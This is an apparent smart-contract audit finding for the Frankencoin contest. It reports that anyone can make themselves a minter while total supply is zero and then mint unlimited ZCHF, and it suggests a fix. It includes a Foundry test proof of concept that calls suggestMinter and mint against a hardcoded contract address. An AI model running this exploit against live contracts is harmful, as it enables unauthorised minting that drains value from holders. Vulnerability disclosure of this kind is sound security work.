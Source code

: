 # Lines of code

https://github.com/code-423n4/2023-04-frankencoin/blob/main/contracts/Frankencoin.sol#L84
https://github.com/code-423n4/2023-04-frankencoin/blob/main/contracts/Frankencoin.sol#L85


# Vulnerability details

## Impact

An attacker can become a minter, minting as many ZCHF tokens as they want, and consequently rendering the protocol meaningless.

## Proof of Concept

### direct link github

[https://github.com/code-423n4/2023-04-frankencoin/blob/main/contracts/Frankencoin.sol#L83](https://github.com/code-423n4/2023-04-frankencoin/blob/main/contracts/Frankencoin.sol#L83)

### PoC

```jsx
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../contracts/test/Strings.sol";
import "../contracts/test/TestToken.sol";
import "../contracts/IERC20.sol";
import "../contracts/Equity.sol";
import "../contracts/IReserve.sol";
import "../contracts/IFrankencoin.sol";
import "../contracts/Ownable.sol";
import "../contracts/Position.sol";
import "../contracts/IPosition.sol";
import "../contracts/MintingHub.sol";
import "../contracts/PositionFactory.sol";
import "../contracts/StablecoinBridge.sol";
import "forge-std/Test.sol";
import "forge-std/console.sol";

contract GeneralTest is Test {
    IFrankencoin zchf;
    User alice;
    User bob;
    address junan;

    constructor(){
        zchf = Frankencoin(0x7a787023f6E18f979B143C79885323a24709B0d8);
        junan = address(0x1234);
    }
    function testTets() public {
        console.log("block number: ",block.number);
        
        vm.startPrank(junan);
        console.log("junan's token before mint:",zchf.balanceOf(junan));

        zchf.suggestMinter(junan, 0, 0, "");
        zchf.mint(junan, 999 ether, 0, 0);

        console.log("junan's token after mint:",zchf.balanceOf(junan));
        vm.stopPrank();
    }
}
```


## Tools Used

 Foundry forge

## Recommended Mitigation Steps

1. Use constructor and mint 1 or more token
2. [https://github.com/code-423n4/2023-04-frankencoin/blob/main/contracts/Frankencoin.sol#L85](https://github.com/code-423n4/2023-04-frankencoin/blob/main/contracts/Frankencoin.sol#L85) change >  ⇒  ≥
